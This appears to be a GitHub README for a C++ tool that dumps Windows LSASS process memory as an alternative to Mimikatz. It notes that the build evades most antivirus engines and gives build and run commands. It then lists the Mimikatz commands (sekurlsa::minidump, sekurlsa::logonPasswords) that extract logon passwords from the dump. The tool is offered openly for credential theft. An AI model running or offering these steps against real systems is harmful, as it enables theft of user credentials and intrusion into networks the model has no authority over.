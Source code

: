 # LSASS Dumper
Simple LSASS Dumper created using C++ as an alternative to using Mimikatz memory dumper.

NOTE: You still need Mimikatz installed to read the dumped data. This program only dumps the data.

VirusTotal Scan Results: 2/71 when running against the executable build (For personal/experiemental use only)

## Usage
The easiest way to build the executable is to just run the `Dump.cpp` file in Visual Studio, but if you prefer `g++`, that should work too.

After compiling the code into an executable, run it!

You can run the executable either way:
```powershell
> ./Dump.exe
or
> ./Dump.exe Output.txt
```
NOTE: If no argument is specified, your file will be `HOSTNAME_M_D_YYYY.txt`

Here are the commands you will need to use in Mimikatz to access the dumped data:
```powershell
> mimikatz # This will start the program
mimikatz$ sekurlsa::minidump <FileName>
mimikatz$ sekurlsa::logonPasswords
```